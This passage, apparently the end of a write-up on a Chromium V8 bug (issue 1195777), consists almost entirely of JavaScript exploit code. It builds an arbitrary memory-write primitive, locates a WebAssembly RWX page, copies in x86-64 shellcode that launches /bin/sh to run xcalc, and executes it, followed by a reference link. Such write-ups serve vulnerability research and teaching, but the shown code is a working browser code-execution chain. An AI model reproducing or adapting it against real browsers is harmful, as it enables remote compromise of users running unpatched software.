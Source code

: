 function write(p, x) {
  let a = ftoi(oob[10]) & 0xffffffffn;
  oob[10] = itof(((p - 8n + 1n) << 32n) + a);
  flt[0] = itof(x);
}

let wasm = new Uint8Array([
  0x00, 0x61, 0x73, 0x6d, 0x01, 0x00, 0x00, 0x00, 0x01, 0x85, 0x80, 0x80, 0x80,
  0x00, 0x01, 0x60, 0x00, 0x01, 0x7f, 0x03, 0x82, 0x80, 0x80, 0x80, 0x00, 0x01,
  0x00, 0x04, 0x84, 0x80, 0x80, 0x80, 0x00, 0x01, 0x70, 0x00, 0x00, 0x05, 0x83,
  0x80, 0x80, 0x80, 0x00, 0x01, 0x00, 0x01, 0x06, 0x81, 0x80, 0x80, 0x80, 0x00,
  0x00, 0x07, 0x91, 0x80, 0x80, 0x80, 0x00, 0x02, 0x06, 0x6d, 0x65, 0x6d, 0x6f,
  0x72, 0x79, 0x02, 0x00, 0x04, 0x6d, 0x61, 0x69, 0x6e, 0x00, 0x00, 0x0a, 0x8a,
  0x80, 0x80, 0x80, 0x00, 0x01, 0x84, 0x80, 0x80, 0x80, 0x00, 0x00, 0x41, 0x2a,
  0x0b
]);

let module = new WebAssembly.Module(wasm);
let instance = new WebAssembly.Instance(module);

let rwx = read(addrof(instance) + 0x68n);

/* DISPLAY=':0.0' xcalc */ 
let shellcode = new Uint8Array([
  0x48, 0xb8, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x00, 0x99, 0x50, 0x54,
  0x5f, 0x52, 0x66, 0x68, 0x2d, 0x63, 0x54, 0x5e, 0x52, 0xe8, 0x15, 0x00, 0x00,
  0x00, 0x44, 0x49, 0x53, 0x50, 0x4c, 0x41, 0x59, 0x3d, 0x27, 0x3a, 0x30, 0x2e,
  0x30, 0x27, 0x20, 0x78, 0x63, 0x61, 0x6c, 0x63, 0x00, 0x56, 0x57, 0x54, 0x5e,
  0x6a, 0x3b, 0x58, 0x0f, 0x05
]);

let buf = new ArrayBuffer(shellcode.length);
let view = new DataView(buf);

write(addrof(buf) + 0x14n, rwx);

for (let i = 0; i < shellcode.length; i++)
  view.setUint8(i, shellcode[i]);

instance.exports.main();
{{< /code >}}


## References 
 - [Issue 1195777: Incorrect representation change from Word64 to Word32](https://bugs.chromium.org/p/chromium/issues/detail?id=1195777)
